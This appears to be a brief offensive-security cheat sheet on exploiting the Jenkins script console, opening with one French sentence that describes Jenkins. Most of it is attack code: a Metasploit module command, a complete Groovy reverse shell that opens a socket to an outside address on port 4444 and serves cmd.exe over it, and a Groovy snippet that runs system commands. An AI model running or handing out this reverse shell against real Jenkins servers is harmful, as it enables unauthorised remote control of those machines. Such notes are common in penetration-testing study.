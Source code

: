 Utilisé pour créer des pipelines d'intégration continue/de développement continu qui permettent aux développeurs de déployer automatiquement leur code une fois qu'ils y ont apporté des modifications.

---

Exploitation using Metasploit Framework

```sh
use exploit/multi/http/jenkins_script_console
```

Exploiting Manually ( Groovy Revershell)

```sh
String host="10.11.86.29";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```


Executing Shell Commands Directly

```sh
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'ipconfig'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```